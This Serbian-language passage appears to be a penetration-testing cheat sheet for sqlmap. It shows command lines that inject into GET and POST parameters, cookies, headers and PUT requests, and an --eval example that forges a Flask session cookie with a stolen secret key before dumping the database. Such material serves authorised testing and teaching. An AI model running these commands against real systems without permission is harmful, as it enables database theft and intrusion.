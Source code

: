 ## Mesto ubrizgavanja

### Iz Burp/ZAP snimka

Zabeležite zahtev i kreirajte fajl req.txt

```bash
sqlmap -r req.txt --current-user
```

### GET zahtev ubrizgavanja

```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```

### SQL Injection Napad na POST zahtev

```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```

### Injekcije u zaglavljima i drugim HTTP metodama

```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

### Označite string kada je ubacivanje uspešno

```bash
--string="string_showed_when_TRUE"
```

### Eval

**Sqlmap** omogućava korišćenje `-e` ili `--eval` opcije za obradu svakog payload-a pre slanja sa nekim python oneliner-om. Ovo čini veoma jednostavnim i brzim procesiranje payload-a na prilagođene načine pre slanja. U sledećem primeru **flask cookie sesija** **je potpisana od strane flask-a sa poznatim tajnim ključem pre slanja**:

```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
